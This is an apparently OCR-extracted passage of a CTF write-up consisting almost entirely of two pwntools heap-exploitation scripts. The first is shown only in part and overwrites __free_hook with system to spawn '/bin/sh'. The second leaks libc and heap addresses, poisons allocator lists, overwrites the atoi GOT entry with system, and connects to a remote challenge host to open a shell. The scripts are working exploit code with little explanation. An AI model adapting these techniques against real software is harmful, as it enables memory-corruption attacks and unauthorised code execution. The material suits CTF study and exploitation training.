 ```plain
log.info("heap = " + hex(heap))
add(0x60,'a'*0x30+p64(0)+p64(0x31)+'a'*0x20)  #4
add(0x60,'b'*0x50+p64(0)+p64(0x71)) #0x2d0  5
delete(4)
delete(3)
add(0x10,p64(heap-0x10)+p64(0x100)) #6
delete(0)
add(0x60,p64(0)*5+p64(0x71)+p64(free_hook)) #7
add(0x60,'/bin/sh\x00') #8
add(0x60,p64(system)) #9
delete(8)
#z()
ctx.interactive()
```
# 
```plain
#FMYY
from pwn import*
def new(size,content):
    p.sendlineafter('choice:','1')
    p.sendlineafter('house:',str(size))
    p.sendafter('your house:',content)
def show(index):
    p.sendlineafter('choice:','3')
    p.sendlineafter('index:',str(index))
def free(index):
    p.sendlineafter('choice:','4')
    p.sendlineafter('index:',str(index))
p = process('./main')
p = remote('das.wetolink.com',28499)
elf =ELF('./main')
libc = ELF('./libc-2.29.so',checksec=False)
for i in range(5):
    new(0x10,'/bin/sh\x00')
for i in range(3,-1,-1):
    free(i)
new(0x10,p64(elf.got['__libc_start_main']))
show(1)
p.recvuntil('house:\n')
libc_base = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - libc.sym['__libc_start_main']
log.info('LIBC:\t' + hex(libc_base))
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']
system = libc_base + libc.sym['system']
rce = libc_base +0xe2383
show(2)
p.recvuntil('house:\n')
heap_base = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - 0x320
log.info('HEAP:\t'+ hex(heap_base))
free(4)
free(5)
free(0)
new(0x10,'FMYY')
new(0x10,'FMYY')
new(0x10,'FMYY')
new(0x10,p64(elf.got['atoi']))
new(0x60,'FMYY')
new(0x10,p64(system))
p.sendlineafter('choice:','/bin/sh\x00')
p.interactive()
```
# **Misc：**